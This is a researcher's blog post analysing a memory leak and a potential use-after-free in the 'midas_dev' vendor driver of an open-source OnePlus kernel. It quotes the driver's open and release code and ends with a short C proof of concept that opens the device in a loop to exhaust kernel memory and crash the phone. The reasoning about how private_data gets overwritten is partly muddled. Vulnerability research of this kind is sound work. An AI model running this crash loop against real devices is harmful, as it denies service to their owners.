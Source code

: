 +++
title = "Oneplus kernel memory leak and potential use after free"
date = "2025-09-28T03:07:44+05:30"
author = "IamAlch3mist"
authorTwitter = "" #do not include @
cover = ""
tags = ["use-after-free", "memory-leak", "kernel-exploit"]
keywords = ["", ""]
description = "heh"
showFullContent = false
readingTime = true
hideComments = false
color = "" #color from the theme settings
+++


I borrowed a OnePlus phone from a friend to experiment with the kernel. Since the kernel is open source, I started digging (hoping for an LPE). I found a couple more bugs they are for another blog post, but here’s a neat little memory leak that can be abused for DoS and a potential use‑after‑free.

I focused on vendor-specific drivers rather than the [mainline kernel](https://github.com/OnePlusOSS/android_kernel_oneplus_mt6893). The driver in question is: [`drivers/soc/oplus/midas/midas_dev.c`](https://github.com/OnePlusOSS/android_kernel_oneplus_mt6893/blob/oneplus/MT6893_R_11.0/drivers/soc/oplus/midas/midas_dev.c)


The driver exports the usual file operations with callbacks to open, close, mmap, and ioctl. 
```c
static const struct file_operations midas_dev_fops = {
	.open = midas_dev_open,
	.release = midas_dev_release,
	.mmap = midas_dev_mmap,
	.unlocked_ioctl = midas_dev_ioctl,
};
```

On open the driver an allocation happens using kzalloc with the size of struct midas_priv_info and stored in the pointer info. At 2 the allocated info is stored in privat_data member of file struct which is basically a void pointer. 

On close the info pointer is retrieved from the file struct and passed to kfree. 

```c
static int midas_dev_open(struct inode *inode, struct file *filp)
{
	int ret = 0;

	struct midas_priv_info *info = kzalloc(sizeof(struct midas_priv_info), GFP_KERNEL); // [1]  
	if (IS_ERR_OR_NULL(info))
		return -ENOMEM;

	info->mmap_addr = vmalloc_user(sizeof(struct midas_mmap_data));
	if (IS_ERR_OR_NULL(info->mmap_addr)) {
		pr_err("mmap_addr vmalloc failed!\n");
		ret = -ENOMEM;
		goto err_info_alloc;
	}

	filp->private_data = info; // [2]
	return 0;

err_info_alloc:
	kfree(info);
	return ret;
}


static int midas_dev_release(struct inode *inode, struct file *filp)
{
	struct midas_priv_info *info = filp->private_data;
	if (IS_ERR_OR_NULL(info))
		return 0;

	if (info->mmap_addr != NULL)
		vfree(info->mmap_addr);

	kfree(info); // use after free
	return 0;
}
```

There are no locks or checks on in the file->private_data. If the driver is opened multiple times (without properly closing prior handles). The file->private_data pointer can be overwritten with a newly allocated info. Which results in memory leak. 


On close the allocated memory is freed but file->private data holds reference to the info pointer and didn't set to NULL. Combined with the ability to open the driver multiple times leading to potential use-after-free. 

system user have permision to interact with the driver. 
```yaml
OP515BL1:/data/local/tmp # ls -al /dev/midas_dev
crw-rw---- 1 system system 238,   0 2025-09-28 04:53 /dev/midas_dev
```
Poc to crash the device using the memory leak.
```c
// aarch64-linux-gnu-gcc -static poc.c 

#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <errno.h>
#include <string.h>

int main(void) {

    int fd;
    for(unsigned int i = 0; i < 0xffffff; i++) {
    fd = open("/dev/midas_dev", O_RDWR);
    if (fd < 0) {
        perror("open failed");
        continue;
    }

}
    close(fd);

return 0;
}
```

{{< youtube kzA2Qn1aQik >}}
# Conclusion 
I expected good quality from oneplus it was disappointing to see such bugs. In the end I found couple more uaf.
